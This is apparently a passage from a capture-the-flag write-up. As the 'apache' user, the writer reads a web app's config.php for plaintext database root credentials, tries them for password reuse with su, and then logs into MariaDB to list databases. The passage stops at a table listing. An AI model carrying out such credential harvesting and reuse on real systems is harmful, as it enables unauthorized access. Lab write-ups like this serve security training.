 Trying to grab the user.txt flag in edward's home directory we get a permission denied:

```
bash-4.2$ cat user.txt
cat: user.txt: Permission denied
bash-4.2$ whoami
apache
```

Poking around more I find a config.php file with DB credentials:

```
bash-4.2$ cd connection/
bash-4.2$ ls
config.php
bash-4.2$ cat config.php
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
bash-4.2$ pwd
/var/www/html/rms/connection
```

After trying an easy win with password reuse by root or edward, I logged into the dv and found some password hashes:

```
bash-4.2$ su root
Password: 
su: Authentication failure
bash-4.2$ su edward
Password: 
su: Authentication failure
bash-4.2$ mysql -u root -pveerUffIrangUfcubyig
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9
Server version: 5.5.68-MariaDB MariaDB Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dbrms              |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.01 sec)

MariaDB [(none)]> use dbrms;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dbrms]> show tables;
+----------------------+
| Tables_in_dbrms      |
+----------------------+
```